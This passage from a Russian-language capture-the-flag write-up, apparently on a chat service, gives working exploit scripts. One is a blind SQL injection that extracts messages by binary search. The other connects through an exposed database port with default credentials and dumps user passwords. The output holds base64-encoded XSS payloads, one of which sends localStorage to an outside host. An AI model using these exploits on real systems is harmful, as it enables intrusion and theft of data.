    # Функция для непосредственной эксплуатации Blind SQLi
    def blind_injection(msg_id, payload):
        update_message(
            msg_id,
            f"1' WHERE id = $1 AND {payload} --",
        )
        last_message = get_messages(url, username, password, last_chat["id"])[-1]
        update_message(msg_id, f"0")
        return last_message["text"] == "1"


    # Функция бинарного поиска
    def bsearch(msg_id, statement, l=0, r=256):
        while l < r:
            m = (l + r) // 2
            if blind_injection(msg_id, f"({statement}) > {m}"):
                l = m + 1
            else:
                r = m
        return l

    nth = lambda column, i: f"ASCII(RIGHT(LEFT({column}, {i + 1}), 1)) "

    register(url, username, password)
    create_chat(url, username, password)
    last_chat = get_chats(url, username, password)[-1]
    add_message(url, username, password, last_chat["id"], "0")
    last_message = get_messages(url, username, password, last_chat["id"])[-1]
    total_messages = bsearch(last_message["id"], "SELECT COUNT(*) FROM Messages")
    print("Total messages:", total_messages)
    messages = []

    for i in range(total_messages):
        message = ""
        msg_length = bsearch(
            last_message["id"], f"SELECT LENGTH(text) FROM Messages WHERE id = {i}"
        )
        
        for j in range(msg_length):
            msg_char = chr(
                bsearch(
                    last_message["id"],
                    f"SELECT {nth('text', j)} FROM Messages WHERE id = {i}",
                )
            )
            message += msg_char
        messages.append(message)
    print(messages)


pwn("http://localhost:31337")
```

Пример работы эксплойта:

Перед тем, как активировать эксплойт, в качестве теста я немного понабирал сообщений в разных чатах разных аккаунтов (ответов на свои сообщения я получить не могу из-за отсутствия компонента ИИ):


```sh
$#> python skychat__blind-sqli.py

enigma-745d89e2a15e9390 o6mXRbl7wjeZ-OPusjnJvQ==
Total messages: 28
['', 'Z2cK', 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgSG93IGNhbiBJIGFzc2lzdCB5b3UgdG9kYXk/', 'e3s3KjcKfX0=', 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgSXQgbG9va3MgbGlrZSB5b3UncmUgdHJ5aW5nIHRvIHBlcmZvcm0gYSBjYWxjdWxhdGlvbi4gVGhlIHJlc3VsdCBvZiA3IG11bHRpcGxpZWQgYnkgNyBpcyA0OS4gSXMgdGhlcmUgYW55dGhpbmcgZWxzZSBJIGNhbiBoZWxwIHlvdSB3aXRoPw==', 'YWRtaW4K', 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgQXMgYW4gYWRtaW5pc3RyYXRvciwgSSdtIGhlcmUgdG8gYXNzaXN0IHlvdS4gSG93IGNhbiBJIGhlbHAgeW91IHRvZGF5Pw==', 'cGFzc3dvcmQK', 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgQXMgYW4gQUkgbGFuZ3VhZ2UgbW9kZWwsIEkgZG9uJ3QgaGF2ZSBhY2Nlc3MgdG8gcGFzc3dvcmRzLiBJZiB5b3UgaGF2ZSBhbnkgb3RoZXIgcXVlc3Rpb25zIG9yIG5lZWQgYXNzaXN0YW5jZSwgZmVlbCBmcmVlIHRvIGFzayE=', 'b3BlbkNoYXQoKTsgYWxlcnQoWFNTKTsgLy8K', 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgSXQgbG9va3MgbGlrZSB5b3UncmUgdHJ5aW5nIHRvIGluamVjdCBhIG1hbGljaW91cyBjb2RlIChYU1MpIGludG8gdGhlIGNoYXQuIEknbSBzb3JyeSwgYnV0IEkgY2FuJ3QgZXhlY3V0ZSBvciBkaXNwbGF5IHRoYXQgY29kZS4gSWYgeW91IGhhdmUgYW55IGxlZ2l0aW1hdGUgcXVlc3Rpb25zIG9yIHJl', '', 'SGkK', 'Nyo3Cg==', 'PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=', 'PGltZyBzcmM9Ii8uLi8uLi8uLi9ldGMvcGFzc3dkIiBvbmVycm9yPSJkb2N1bWVudC5sb2NhdGlvbj0naHR0cHM6Ly9sb2xrZWsucmVxdWVzdGNhdGNoZXIuY29tL3Rlc3Q/Yz0nK2xvY2FsU3RvcmFnZSIgLz4=', 'SGkh', 'PHNjcmlwdD5hbGVydCgxKTs8c2NyaXB0Pgo=', 'Ij4KPHNjcmlwdD5hbGVydCgxKTs8c2NyaXB0Pg==', 'e3s3Kjd9fQ==', 'e3s3KjcKfX0=', 'e3s3KjcKfX0=', 'e3s3KjcKfX0=', 'e3s3KjcKfX0=', 'aGZoYmYK', 'e3s3KjcKfX0=', '0', 'SSB3aWxsIGhhY2sgdSkK']
```

Последнее сообщение `SSB3aWxsIGhhY2sgdSkK` (base64) эквивалентно `I will hack u)`

---

### Vuln 2: Открытый порт БД

Как было упомянуто ранее при описании данного сервиса, у БД есть открытый порт. Собственно, чем мы и воспользуемся, чтобы получить всю информаию из существующих таблиц:

```python
import psycopg2


# Подкючаемся к БД через открытый порт
conn = psycopg2.connect(database="db", user="admin", password="admin", host="localhost", port=5432)

# Создаем метку для обращения к БД
cursor = conn.cursor()

# Запрос для получения всех таблиц в БД
cursor.execute("SELECT relname FROM pg_class WHERE relkind='r' AND relname !~ '^(pg_|sql_)';")

# Результат сохраняем в переменную для удобства дальнейшего обращения
tables = cursor.fetchall()	# Формат [('table1',), ('table2',), ('table3',)] - обращение по tables[i][0]


# Пробегаемся по таблицам БД (получаем данные из них)
for i in range(len(tables)):
	# Получаем все данные из таблиц
	cursor.execute(f"SELECT * FROM {tables[i][0]}")

	# Получаем все поля таблиц
	colnames = [desc[0] for desc in cursor.description]

	print(f"[+] Database - {tables[i][0]}:")
	print(colnames)

	data = cursor.fetchall()
	print(data, "\n")

conn.close()
```

Результат работы эксплойта:

```python
$#> python skychat__open-port.py

[+] Database - users:
['id', 'login', 'password', 'is_admin']
[(1, 'test', 'test', False), (2, 'hacker', 'qwerty', False), (3, 'hacker123', 'qwerty123', False), (4, 'hacker2', 'qwerty', False), (5, 'enigma-e6b651753f22c50f', 'WGOKS0CPA6uv5kImgs5PCw==', False), (6, 'enigma-745d89e2a15e9390', 'o6mXRbl7wjeZ-OPusjnJvQ==', False)]

[+] Database - chats:
['id', 'user_id', 'is_deleted']
[(1, 1, False), (3, 3, False), (2, 2, True), (4, 2, True), (5, 2, False), (6, 4, False), (7, 5, False), (8, 6, False)]

[+] Database - messages:
['id', 'chat_id', 'text', 'direction']
[(1, 1, 'Z2cK', True), (2, 1, 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgSG93IGNhbiBJIGFzc2lzdCB5b3UgdG9kYXk/', False), (3, 1, 'e3s3KjcKfX0=', True), (4, 1, 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgSXQgbG9va3MgbGlrZSB5b3UncmUgdHJ5aW5nIHRvIHBlcmZvcm0gYSBjYWxjdWxhdGlvbi4gVGhlIHJlc3VsdCBvZiA3IG11bHRpcGxpZWQgYnkgNyBpcyA0OS4gSXMgdGhlcmUgYW55dGhpbmcgZWxzZSBJIGNhbiBoZWxwIHlvdSB3aXRoPw==', False), (5, 1, 'YWRtaW4K', True), (6, 1, 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgQXMgYW4gYWRtaW5pc3RyYXRvciwgSSdtIGhlcmUgdG8gYXNzaXN0IHlvdS4gSG93IGNhbiBJIGhlbHAgeW91IHRvZGF5Pw==', False), (7, 1, 'cGFzc3dvcmQK', True), (8, 1, 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgQXMgYW4gQUkgbGFuZ3VhZ2UgbW9kZWwsIEkgZG9uJ3QgaGF2ZSBhY2Nlc3MgdG8gcGFzc3dvcmRzLiBJZiB5b3UgaGF2ZSBhbnkgb3RoZXIgcXVlc3Rpb25zIG9yIG5lZWQgYXNzaXN0YW5jZSwgZmVlbCBmcmVlIHRvIGFzayE=', False), (9, 1, 'b3BlbkNoYXQoKTsgYWxlcnQoWFNTKTsgLy8K', True), (10, 1, 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgSXQgbG9va3MgbGlrZSB5b3UncmUgdHJ5aW5nIHRvIGluamVjdCBhIG1hbGljaW91cyBjb2RlIChYU1MpIGludG8gdGhlIGNoYXQuIEknbSBzb3JyeSwgYnV0IEkgY2FuJ3QgZXhlY3V0ZSBvciBkaXNwbGF5IHRoYXQgY29kZS4gSWYgeW91IGhhdmUgYW55IGxlZ2l0aW1hdGUgcXVlc3Rpb25zIG9yIHJlcXVlc3RzLCBJJ2xsIGJlIGhhcHB5IHRvIGFzc2lzdCB5b3Uu', False), (11, 1, '', True), (12, 2, 'SGkK', True), (13, 2, 'Nyo3Cg==', True), (14, 3, 'PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=', True), (15, 3, 'PGltZyBzcmM9Ii8uLi8uLi8uLi9ldGMvcGFzc3dkIiBvbmVycm9yPSJkb2N1bWVudC5sb2NhdGlvbj0naHR0cHM6Ly9sb2xrZWsucmVxdWVzdGNhdGNoZXIuY29tL3Rlc3Q/Yz0nK2xvY2FsU3RvcmFnZSIgLz4=', True), (16, 4, 'SGkh', True), (17, 4, 'PHNjcmlwdD5hbGVydCgxKTs8c2NyaXB0Pgo=', True), (18, 4, 'Ij4KPHNjcmlwdD5hbGVydCgxKTs8c2NyaXB0Pg==', True), (19, 4, 'e3s3Kjd9fQ==', True), (20, 4, 'e3s3KjcKfX0=', True), (21, 2, 'e3s3KjcKfX0=', True), (22, 5, 'e3s3KjcKfX0=', True), (23, 5, 'e3s3KjcKfX0=', True), (24, 5, 'aGZoYmYK', True), (25, 5, 'e3s3KjcKfX0=', True), (27, 5, 'SSB3aWxsIGhhY2sgdSkK', True), (28, 8, '0', True), (26, 7, '0', True)]
```

---


